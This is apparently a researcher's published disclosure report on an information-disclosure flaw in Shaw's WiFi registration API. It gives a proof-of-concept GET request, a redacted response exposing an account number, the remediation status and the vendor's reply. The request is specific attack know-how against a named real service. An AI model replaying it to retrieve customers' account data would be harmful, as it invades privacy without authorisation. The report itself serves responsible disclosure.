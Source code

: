 ```yaml
---
layout: reports
permalink: /reports/6/
tagline: "On 10 August 2018 I discovered an Information Disclosure vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GWA-2018-006
---
```


## Summary

By sending a `GET` request to a specific API location it is possible to obtain a customer's account number in addition to registered device IDs and MAC Addresses of associated Shaw Go Wifi devices.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with that customer or by remotely logging into a @shaw.ca email associated with that customer.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

Request:
```http
GET /api/customer/account/ HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Accept: application/json
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 381
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"account_id":"03161234567","account_status":"active","device_quota":10,"url":"/accounts/03161234567","downlink_speed":"30","uplink_speed":"5","service_code":"830-137","service_type":"Residential","service_description":"INTERNET 150 PLUS","service_status":"active","quota_available":true,"devices":[],"account_number":"03161234567","response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._

## Recommended Actions

 - Implement proper access controls to prevent information disclosure.

## Remediation Status

At the time of publishing this report `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` from an IP associated with the customer now result in the response showing `401 Unauthorized`. However this access token can still be generated by logging in to a @shaw.ca email address associated with that customer.

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since this report.

## Response From Affected Party

### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
